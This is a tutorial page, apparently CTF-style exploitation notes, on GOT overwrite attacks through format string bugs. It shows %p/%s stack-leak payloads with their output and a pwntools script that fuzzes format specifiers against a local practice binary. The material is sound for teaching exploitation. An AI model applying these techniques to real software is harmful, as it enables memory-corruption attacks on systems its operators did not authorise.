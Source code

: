 So, could we overwrite one of these and control execution from there?

Any memory corruption primitive that will let you write to an arbitrary address will allow you to overwrite a GOT entry.

Ultimately, `.got.plt` is very <mark style="color:yellow;">attractive for format string bugs and other arbitrary write exploits</mark>.

When your target binary lacks PIE, this will cause the `.got.plt` to be loaded at a fixed address.&#x20;

<mark style="color:yellow;">Enabling FULL RELRO will protect against these kinds of attack by preventing writing to the GOT, but will severely impact performance</mark>.&#x20;

## Exploitation

Printing values off of the stack with the format string bug:

```
%p %p %p
0x12c 0xf7f80620 0x80491b1
%s
Segmentation fault
```

**Why did this happen?**

We are able to print pointers from the stack by using `%p` as the format specifier.

However, when we try to print a whatever address `0x12c` is pointing to as a string using `%`s, it is going to result in a segmentation fault because the address `0x12c` is pointing to is NOT a valid location in memory (not in scope).

### Fuzzing `printf()` Format Vulnerability

Read more about Format String Vulnerabilities here:&#x20;

{% embed url="https://axcheron.github.io/exploit-101-format-strings/" %}

`fuzz.py`:

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./got_overwrite', checksec=False)

# Create process (level used to reduce noise)
p = process(level='error')

# Let's fuzz x values
for i in range(100):
    try:
        # Format the counter
        # e.g. %2$s will attempt to print [i]th pointer/string/hex/char/int
        p.sendline('%{}$x'.format(i).encode())
        # Receive the response
        result = p.recvline().decode()
        # If the item from the stack isn't empty, print it
        if result:
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass
```
